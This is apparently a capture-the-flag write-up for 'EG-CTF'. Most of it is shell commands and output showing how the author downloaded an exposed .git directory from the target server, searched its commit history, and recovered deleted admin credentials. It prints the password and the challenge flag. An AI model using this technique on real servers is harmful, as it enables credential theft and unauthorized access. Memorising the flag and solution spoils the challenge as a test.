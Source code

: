# EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/
root@cloudshell: ls
172.105.76.128  
root@cloudshell: cd 172.105.76.128/
root@cloudshell:~/172.105.76.128 ls -a
.  ..  .git
root@cloudshell:~/172.105.76.128 cd .git/
root@cloudshell:~/172.105.76.128/.git ls
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs  refs
// let's check the commits
root@cloudshell:~/172.105.76.128/.git git reflog
2e3e1a8 HEAD@{0}: commit: Refining
89329fa HEAD@{1}: commit: NewFeature
dfecece HEAD@{2}: commit: Addinfo
b032cf8 HEAD@{3}: commit: Disable
5b9e491 HEAD@{4}: commit: DelCr
457168f HEAD@{5}: commit: AddUsetting
b55d897 HEAD@{6}: commit: editconf
70ae358 HEAD@{7}: commit (initial): initials
// i have check this commits one by one and i found 
root@cloudshell:~/172.105.76.128/.gitgit show 2e3e1a8
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:18:26 2019 +0100

    Refining

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 3d7f801..706d93b 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -420,15 +420,6 @@ CONFIG = array(
 'overwriteprotocol' => '',

 /**
- * Override webroot
- * ownCloud attempts to detect the webroot for generating URLs automatically.
- * For example, if `www.example.com/owncloud` is the URL pointing to the
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs.
- */
-'overwritewebroot' => '',
-
-/
   Override condition
   This option allows you to define a manual override condition as a regular
   expression for the remote IP address. The keys `overwritewebroot`,
// this show us the path of admin log in is /S3cR3tPaTh/
root@cloudshell:~/172.105.76.128/.gitgit show 5b9e491
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100

    DelCr

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 46ed4f3..72e9842 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -194,7 +194,7 @@ CONFIG = array(
 'knowledgebaseenabled' => true,

 /**
- * Enables or disables avatars or user profile photos
+ /* Enables or disables avatars or user profile photos
  * `true` enables avatars, or user profile photos, `false` disables them.
  * These appear on the User page, on user's Personal pages and are used by some apps
  * (contacts, mail, etc).
@@ -469,15 +469,7 @@ CONFIG = array(



-
- Admin Credentials
-
-'Admin_Login' => 'Administrator'
-'Admin_Password' => 'FN3ym@bZNaF&'

/////////////////////////////////////////////////////////////////
admin = Administrator
password = FN3ym@bZNaF&
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0}
sorry if something it's not clear
//////////////////////////////////////////////////////////////////
